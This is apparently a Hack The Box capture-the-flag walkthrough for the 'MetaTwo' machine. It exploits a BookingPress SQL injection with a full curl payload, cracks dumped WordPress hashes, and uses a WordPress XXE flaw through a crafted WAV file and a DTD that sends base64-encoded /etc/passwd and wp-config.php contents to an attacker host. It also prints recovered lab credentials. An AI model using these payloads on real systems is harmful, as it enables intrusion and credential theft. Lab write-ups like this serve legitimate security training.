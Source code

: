 ```yaml
---
title: MetaTwo
author: 0xskar
date: 2022-12-30 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [linux, Wordpress, xmlrpc, boookingpress, wordpress, CVE-2021-29447]
---
```


<https://app.hackthebox.com/machines/> Exploit bookingpress plugin vulnerability, then a wordpress version vulnerability to find credentials for credentials then get root.

Starting off with nmap - `nmap -Pn -p- metatwo.htb -vvvv -oN nmap_initial` 

We find a port 80 webserver trying to redirecto to metapress.htb lets add that to /etc/hosts and check it.

find a login page @ http://metapress.htb/wp-login.php.

we can start off by checking the site with `wpscan`

- `wpscan -e ap --api-token api --url http://metapress.htb -o ~/Documents/htb/MetaTwo/wpscan.2 --plugins-detection mixed`

# Wordpress bookingpress 1.0.11 Unauthenticated SQL Injection

we find a vulnerability in the `/events/` which is the bookingpress plugin. 

- https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

Extract the nonce from the source code of the events page and craft a curl command

- `curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \ --data 'action=bookingpress_front_get_category_services&_wpnonce=3392862f44&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'`

This works and we can also use <a href="https://github.com/hadrian3689/wp_bookingpress_1.0.11/blob/main/sqli.py">this exploit</a> to dump the user credentials.

```
CVE-2022-0739 WordPress BookingPress Plugin< 1.0.11 Unauthenticated SQL Injection

Credentials are:
--------------------------------------------------
Username: admin
Email: admin@metapress.htb
Password: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
--------------------------------------------------
Username: manager
Email: manager@metapress.htb
Password: $P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
--------------------------------------------------
```

Running rockyou for an eternity againse the admin didnt give us anything, and running aginst manager gets us `partylikearockstar` 

# WordPress version 5.6.2 Exploitation

<a href="https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/">Here</a> is a great article explaining the process we will use in the XXE vuln. Basically now that we have credentials we can create a wave file with malicious XML and upload the wave and wordpress will read the metadata and send us back what we want it to read no the system.

We start by generating a WAVE file in bash that contains a payload calling back to the evil.dtd we will setup on attacker

- `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.123:6969/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`

then we create evil.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.123:6969/?p=%file;'>" >
```

And start a webserver in the dir. once we upload we should get a callback with the base64 encoded file which we can decode. So this does work, but /etc/passwd and we find a user jnelson. Unfortunately unable to get the user ssh file. So going to look for the wp-config.php file for more information. `/etc/nginx/sites-enabled/default` tells us the blog is in `/var/www/metapress.htb/blog` so lets edit the dtd file to display wp-config.php.

We do find some ftp credentials in here lets check that out

```
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

And lets upload a reverse shell. Oh no permissions so looking around we find a php-mailer and checknig inside are jnelson's ssh credentials. 

```
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

# Linux Privesc

Pretty simple, the use has a file with root ssh passwords. cat ssh then su to root
